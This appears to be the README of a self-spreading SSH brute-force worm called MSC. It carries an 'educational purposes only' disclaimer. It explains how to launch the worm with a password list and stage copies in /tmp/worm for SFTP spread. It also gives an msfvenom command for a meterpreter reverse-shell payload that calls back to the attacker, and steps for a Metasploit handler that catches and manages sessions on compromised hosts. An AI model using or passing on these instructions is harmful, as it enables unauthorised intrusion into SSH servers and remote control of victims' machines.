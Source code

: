 MSC (Major SSH Crisis)
FOR EDUCATIONAL PURPOSES ONLY!

Welcome to the SSH brute force worm MSC! Make sure to review code and make neccessary changes to your needs.

Example command to run the script:
python3 replicator.py passwords.txt

As well, inspect the code and make sure scripts (or copies) are located in a /tmp/worm/ directory so the SFTP exchange is successful.

To execute a reverse shell payload, make sure payload or a copy of the payload in a /tmp/worm directory. In replicator.py, our example payload is "gotcha".
To create a payload use the following command:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf > file_name.elf

Finally, to catch reverse shells executed by the worm, make sure run a msfconsole meterpreter. Use exploit/multi/handler, set payload to linux/x86/meterpreter/reverse_tcp, 
set LHOST and LPORT, and set ExitOnSession to false. When you are ready to listen for incoming connections, use exploit -j. From the module command line, use sessions command 
to navigate multiple sessions. Sessions -h for help! When exiting a shell, use the command background from the meterpreter line so the session is not terminated. 
